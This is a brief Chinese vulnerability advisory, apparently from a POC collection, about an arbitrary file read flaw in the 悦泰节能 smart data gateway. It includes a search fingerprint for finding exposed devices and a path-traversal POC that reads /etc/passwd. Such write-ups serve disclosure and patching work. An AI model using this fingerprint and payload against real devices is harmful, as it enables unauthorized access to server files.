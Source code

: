 # 悦泰节能 智能数据网关 resources 任意文件读取漏洞

## 漏洞描述

悦泰节能 智能数据网关存在任意文件读取漏洞，通过构造特殊请求可以读取服务器任意文件

## 漏洞影响

```
悦泰节能 智能数据网关
```

## 网络测绘

```
body="/FWlib3/resources/css/xtheme-gray.cssz"
```

## 漏洞复现

登录页面

![](images/202202162249593.png)

验证POC

```php
/FWlib3/resources//../../../../../../../../etc/passwd
```

![img](images/202202162249623.png)